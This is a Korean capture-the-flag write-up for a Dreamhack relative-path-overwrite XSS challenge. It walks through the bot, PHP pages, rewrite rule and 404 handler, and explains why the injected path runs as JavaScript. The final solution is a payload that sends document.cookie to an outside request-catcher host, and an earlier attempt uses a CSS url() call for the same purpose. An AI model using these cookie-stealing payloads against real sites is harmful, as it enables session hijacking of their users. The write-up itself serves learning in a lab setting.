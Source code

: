 ```yaml
---
title: "[2025-08-17] RPO advanced"
excerpt: "RPO advanced"

categories:
  - Problem
tags:
  - [XSS, RPO]

permalink: /Problem/[2025-08-17] RPO advanced/

toc: true
toc_sticky: true

date: 2025-08-17
last_modified_at: 2025-08-17
---
```


## 🦥 본문

- bot.py
    
    ```python
    from selenium import webdriver
    from selenium.webdriver.chrome.service import Service
    import sys
    import base64
    
    if len(sys.argv) < 2:
        exit(-1)
    
    if len(sys.argv[1]) == 0:
        exit(-1)
    
    path = base64.b64decode(sys.argv[1]).decode('latin-1')
    
    try:
        FLAG = open('/flag.txt', 'r').read()
    except:
        FLAG = '[**FLAG**]'
    
    def read_url(url, cookie={'name': 'name', 'value': 'value'}):
        cookie.update({'domain':'127.0.0.1'})
        try:
            service = Service(executable_path="/chromedriver")
            options = webdriver.ChromeOptions()
            for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
                options.add_argument(_)
            driver = webdriver.Chrome(service=service, options=options)
            driver.implicitly_wait(3)
            driver.set_page_load_timeout(3)
            driver.get('http://127.0.0.1/')
            driver.add_cookie(cookie)
            driver.get(url)
    
        except Exception as e:
            driver.quit()
            return False
        driver.quit()
        return True
    
    def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
        url = f'http://127.0.0.1/{path}'
        return read_url(url, cookie)
    
    if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
        print('<script>alert("wrong??");history.go(-1);</script>')
    else:
        print('<script>alert("good");history.go(-1);</script>')
    
    ```
    
    - `check_xss()` 에서 쿠키에 flag를 집어 넣고 `read_url()`을 통해 웹드라이버로 실행
- index.php
    
    ```php
    <html>
    <head>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
    <title>Relative-Path-Overwrite-Advanced</title>
    </head>
    <body>
        <!-- Fixed navbar -->
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <a class="navbar-brand" href="/">Relative-Path-Overwrite-Advanced</a>
            </div>
            <div id="navbar">
              <ul class="nav navbar-nav">
                <li><a href="/">Home</a></li>
                <li><a href="/?page=vuln&param=dreamhack">Vuln page</a></li>
                <li><a href="/?page=report">Report</a></li>
              </ul>
    
            </div><!--/.nav-collapse -->
          </div>
        </nav><br/><br/><br/>
        <div class="container">
        <?php
              $page = $_GET['page'] ? $_GET['page'].'.php' : 'main.php';
              if (!strpos($page, "..") && !strpos($page, ":") && !strpos($page, "/"))
                  include $page;
          ?>
        </div>
    </body>
    </html>
    ```
    
    - page 파라미터를 통해 `.php` 파일 실행. 이 때 `..`이나 `:`이나 `/`는 필터링
- report.php
    
    ```php
    <?php
    if(isset($_POST['path'])){
        exec(escapeshellcmd("python3 /bot.py " . escapeshellarg(base64_encode($_POST['path']))) . " 2>/dev/null &", $output);
        echo($output[0]);
    }
    ?>
    
    <form method="POST" class="form-inline">
        <div class="form-group">
            <label class="sr-only" for="path">/</label>
            <div class="input-group">
                <div class="input-group-addon">http://127.0.0.1/</div>
                <input type="text" class="form-control" id="path" name="path" placeholder="/">
            </div>
        </div>
        <button type="submit" class="btn btn-primary">Report</button>
    </form>
    ```
    
    - 아래와 같은 코드 실행
        
        ```php
        python3 /bot.py <Base64로 인코딩된 path> 2>/dev/null &
        ```
        
        - 이 때 escape를 사용하여 CLI Injection 피함
        - `2>/dev/null` : 에러 출력은 전부 무시
        - `&` : 백그라운드 실행
- vuln.php
    
    ```
    <script src="filter.js"></script>
    <pre id=param></pre>
    <script>
        var param_elem = document.getElementById("param");
        var url = new URL(window.location.href);
        var param = url.searchParams.get("param");
        if (typeof filter === 'undefined') {
            param = "nope !!";
        }
        else {
            for (var i = 0; i < filter.length; i++) {
                if (param.toLowerCase().includes(filter[i])) {
                    param = "nope !!";
                    break;
                }
            }
        }
    
        param_elem.innerHTML = param;
    </script>
    
    ```
    
    - 현재 URL의 param 값을 가져와서 필터링 후 `<pre>` 태그에 집어 넣음
    - filter.js가 상대 주소로 되어 있어서 필터링을 수행 안 시킬 수 있음
- 404.php
    
    ```php
    <?php 
        header("HTTP/1.1 200 OK");
        echo $_SERVER["REQUEST_URI"] . " not found."; 
    ?>
    ```
    
    - `header("HTTP/1.1 200 OK");` : 응답 코드 200으로 지정
    - 요청한 URL 경로가 not found임을 나타내는 페이지
- 000-default.conf
    
    ```php
    RewriteEngine on
    RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]
    
    ErrorDocument 404 /404.php
    ```
    
    - URL Rewrite 지정하는 코드
        - `.js` 나 `.css` 파일명은 `/static` 경로에서 요청하도록 rewrite
        - `[L]` : 이 규칙이 매칭되면 다른 RewriteRule 적용 X
        - RewriteRule은 스크립트의 파일 요청에서도 적용되므로 `<script src=filter.js>`에도 적용
    - `ErrorDocument 404` : 404 Not Found 에러가 발생했을 때 `/404.php` 실행

기존의 RPO 문제에서 rewrite rule과 404 페이지가 추가되었다. 

그래서 일부로 404를 유발하고 CSS Injection과 연계하여 드림핵 툴즈에 쿠키를 넣어서 보내는 것을 생각했다.

```php
index.php/page=evil.css/*{background:url(https://zcpzeje.request.dreamhack.games)}
```

근데 CSS injection을 실행시키려면 css로 읽어들여야 하는데 `<link rel>` 태그로만 가능하단다..

공격하려면 일단 웹드라이버로 들어가야 함

쿠키는 외부에서 요청해야 함

즉, js 코드를 실행해야 함 → 404.php 혹은 vuln.php

- vuln.php에서는 filter.js가 문제. 상대 경로이지만 default 값에 의해 static 내부 폴더에 있는 것만 작동
- JS와의 연계 부분에서
    1. `/static/script.js` 로 로드되어야 할 파일을 `/USER_INPUT/static/script.js` 의 형태로 로드할 수 있는 경우
    2. `USER_INPUT` 부분을 조작하여 `index.php/alert(1);` 코드를 넣음
    3. 최종 경로는 `/index.php/;alert(1);//static/script.js`로 처리
    4. 브라우저는 JS로 인식하고 `/index.php` 를 실행 → HTML 반환
    5. alert(1); 부분은 JS 코드로 실행. 뒤 `//static/script.js` 는 주석 처리되어 무시

를 이용하려고 

```php
index.php/alert(1);//?page=vuln
```

를 먼저 해봤는데 alert(1)가 안뜬다. 근데 ;alert(1);는 됨? → 왜?

`/index.php/`를 정규식 리터럴로 받아드리고 `;`를 해야 정규식 문장이 끝임을 알리고 `alert(1);`을 해야 동작한다

### 풀이 과정

1. 아래와 같은 코드를 `/report` API에 입력

```php
index.php/;location.href='https://hyfimog.request.dreamhack.games/'+document.cookie;//?page=vuln&param=dreamhack
```